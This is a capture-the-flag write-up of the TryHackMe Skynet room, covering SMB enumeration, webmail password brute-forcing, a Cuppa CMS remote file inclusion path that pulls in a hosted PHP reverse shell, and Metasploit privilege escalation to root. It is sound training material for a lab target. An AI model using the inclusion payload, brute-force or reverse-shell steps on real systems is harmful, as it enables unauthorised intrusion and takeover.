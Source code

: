 <h1>TryHackMe Skynet CTF</h1>

<h2>Overview</h2>
I’ve been studying for the eLearnSecurity Junior Penetration Tester (eJPTv2) Certification and recently completed INE’s lessons on SMB Enumeration. To supplement and practice what I learned, I searched TryHackMe for rooms that are tagged with SMB or samba and found Skynet! This was a fun Terminator themed CTF challenge that took me three or four hours to complete. I am glad I took notes throughout the process, so I could continue where I left off after taking breaks.
<br />

<h2>Tools Used</h2>

- <b>Nmap</b> 
- <b>Smbclient</b>
- <b>Hydra</b>
- <b>Gobuster</b>
- <b>Burp Suite/Burp Intruder</b>
- <b>MSFvenom Payload Creator</b>
- <b>Python’s http.server module</b>
- <b>Metasploit</b>
- <b>Linpeas</b>

<h2>My journey through Skynet:</h2>

There are five tasks to complete in this module:
1.	What is Miles' password for his emails?
2.	What is the hidden directory?
3.	What is the vulnerability called when you can include a remote file for malicious purposes?
4.	What is the user flag?
5.	What is the root flag?

***
<b>Port scanning and SMB Enumeration with Nmap</b>
***

I used Nmap to identify open ports on the target machine. By default, Nmap scans the 1000 most frequently used ports. I also used the -sV option so that Nmap would attempt to identify the services running on any discovered port.

```
┌──(root㉿kali)-[~]
└─# nmap -sV 10.10.71.63
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-20 15:20 UTC
Nmap scan report for ip-10-10-71-63.eu-west-1.compute.internal (10.10.71.63)
Host is up (0.011s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 02:48:CA:C0:AC:F9 (Unknown)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.66 seconds </blockquote>
```

Port 80 tells me there is likely a website being hosted. But a quick look shows there is not much to see on this homepage. The source code did not reveal much, either.
<br />
<img src="https://i.imgur.com/6fdt0Sc.png" height="80%" width="80%" alt="SkyNet HomePage"/>
<br />

Port 445 shows there may be SMB shares to explore. I used Nmap again with the smb-enum-shares script to see what I could find:

```
┌──(root㉿kali)-[~]
└─# nmap 10.10.71.63 -p 139,445 --script smb-enum-shares
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-20 15:31 UTC
Nmap scan report for ip-10-10-71-63.eu-west-1.compute.internal (10.10.71.63)
Host is up (0.00024s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 02:48:CA:C0:AC:F9 (Unknown)

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.71.63\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (skynet server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.71.63\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: Skynet Anonymous Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\srv\samba
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.71.63\milesdyson: 
|     Type: STYPE_DISKTREE
|     Comment: Miles Dyson Personal Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\milesdyson\share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.71.63\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 0.89 seconds
```
<br />

***
<b>Exploring shares with SMBclient</b><br />
***
The results from the script tells me that a NULL user can connect to anonymous. From here I used the Smbclient to connect, browse, and download files from the share. I found an interesting file with the name “attention.txt.”

<br />
<img src="https://i.imgur.com/CwpAVNm.png" height="80%" width="80%" alt="Exploring with SMBClient"/>
<br />
This file contained the following clue:<br />

```
┌──(root㉿kali)-[~]
└─# cat attention.txt 
A recent system malfunction has caused various passwords to be changed. All skynet employees are 
required to change their password after seeing this.
-Miles Dyson
```
<br />
Another notable file was located in the "logs" folder, which appeared to be a list of passwords:
<br />
<img src="https://i.imgur.com/TfJhs5I.png" height="80%" width="80%" alt="Log1.txt File"/>
<br />

I attempted to use the login cracker program Hydra to see if any of those passwords matched the milesdyson share. Unfortunately, this did not work.
<br />
<img src="https://i.imgur.com/dCptaBr.png" height="80%" width="80%" alt="Hydra results"/>
<br />

***
<b>Digging into GoBuster and the website</b><br />
***
Gobuster uses wordlists to brute-force directories, files, and subdomains. I used Gobuster to enumerate the target website:
<br />
<img src="https://i.imgur.com/Wguoz1r.png" height="80%" width="80%" alt="Enumerating with Gobuster"/>
<br />
<br />
The directories admin, ai, and config led nowhere. However, Squirrelmail looked promising as it led to a login page. From here, I used Burp Suite which provides numerous tools for web application testing. The Burp Intruder tool was used to send the same HTTP request over and over again using milesdyson as the login, and the list passwords from log1.txt inserted into the password field.

<br />
<img src="https://i.imgur.com/Bu9rrjq.png" alt="Burp Suite"/>
<br />
<br />
One of the passwords generated a status of 300. All of the other passwords resulted in a status of 200. The one that was different is likely the valid password.
<br />
<img src="https://i.imgur.com/l2gqZDh.png" height="80%" width="80%" alt="Burp Intruder"/>
<br />
<br />
<b>We're in!!</b> I completed the first challenge task of discovering Miles’ email password!
<br />
<br />
<img src="https://i.imgur.com/q4mTmcH.png" height="80%" width="80%" alt="Burp Intruder"/>
<br />
<br />

I opened the email with the subject “Samba Password reset.” This contained a password for the milesdyson share. I then used Smbclient to access this share and located a “notes” folder, which contained a file names “important.txt.”

```
┌──(root㉿kali)-[~]
└─# cat important.txt 

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

This pointed to the hidden folder which was Miles’ homepage and was answer to the second challenge task.
<br />
<br />
<img src="https://i.imgur.com/Ly3n6ZD.png" height="80%" width="80%" alt="Miles Dyson Homepage"/>
<br />  
<br />
***
Gaining further access
***
Gobuster came in handy once again. This time I used it to enumerate other directories within the hidden folder, which pointed to an administrator page:
<br />
<img src="https://i.imgur.com/tryXcBh.png" height="80%" width="80%" alt="Gobuster 2 Results"/>
<br />  
<br />
This administrator page led to a Cuppa CMS login:
<br />
<img src="https://i.imgur.com/pDX4py8.png" height="80%" width="80%" alt="Cuppa CMS Login"/>
<br />  
<br />
I tried Burp Suite with Intruder to see if the same log1.txt password list would provide access. Unfortunately, this produced no results.

A Google search helped me find a remote file inclusion vulnerability associated with Cuppa CMS: https://www.exploit-db.com/exploits/25971

Remote file inclusion would allow me to execute remote code on the target webserver, and is the answer to the third challenge task. To get this to work, I needed to create a reverse PHP shell and host it via a web server. To execute the code, I could append “/alerts/alertConfigField.php?urlConfig=url_containing_reverseshell” to the end of the administrator page.  

To create the PHP reverse shell, I used MSFvenom Payload Creator (MSFPC). MSFPC is included in Kali Linux and it simplifies the process of creating a reverse shell payload. It also creates a customized Metasploit handler.
<br />
<br />
<img src="https://i.imgur.com/sz8Vvu0.png" height="80%" width="80%" alt="MSFVenom"/>
<br />  
<br />
I used Python’s http.server module to host the PHP reverse shell on my machine. Then, I started the MSF handler using the one created by MSFPC. I opened the URL and executed the code. The MSF handler was listening and created a Meterpreter session which I used to explore the target machine. The user flag for challenge task four was located in the /home/milesdyson folder:
<br />
<br />
<img src="https://i.imgur.com/00zol8h.png" height="80%" width="80%" alt="User Flag"/>
<br />  
<br />
I could not access the root folder with this session and needed to find a way to escalate my privileges. I used Meterpreter to upload Linpeas.sh to the /tmp folder. Linpeas is a script that runs on the target Linux machine and searches for ways to escalate privileges. After running Linpeas, I discovered a number of possible exploits that may allow access to root.
<br />
<br />
<img src="https://i.imgur.com/mqDGhoz.png" height="80%" width="80%" alt="LinPeas"/>
<br />  
<br />
Within MSFconsole, I searched for the first vulnerabilities related to “CVE-2017-16995” and found a potential exploit: 
<b>exploit/linux/local/bpf_sign_extension_priv_esc</b>

After running this exploit, I had a new Meterpreter session with root privileges. 
<br />
<br />
<img src="https://i.imgur.com/0Hxdkdn.png" height="80%" width="80%" alt="GotRoot"/>
<br />  
<br />

I found the root flag and completed the fifth and final challenge task!!
<br />
<br />
<img src="https://i.imgur.com/v8AeFpg.png" height="80%" width="80%" alt="Root Flag"/>
<br />  
<br />

<h2>Final Thoughts</h2>
Although, this is considered an “easy” TryHackMe room, this was still a challenging set of tasks for me. I was glad for the opportunity to explore SMB shares and also to practice Linux privilege escalation. I had a few stops and starts with this one and needed to take a few breaks, which you can see by how often the IP addresses change in my screenshots. All in all, I had a lot of fun, and look forward to the next challenge.
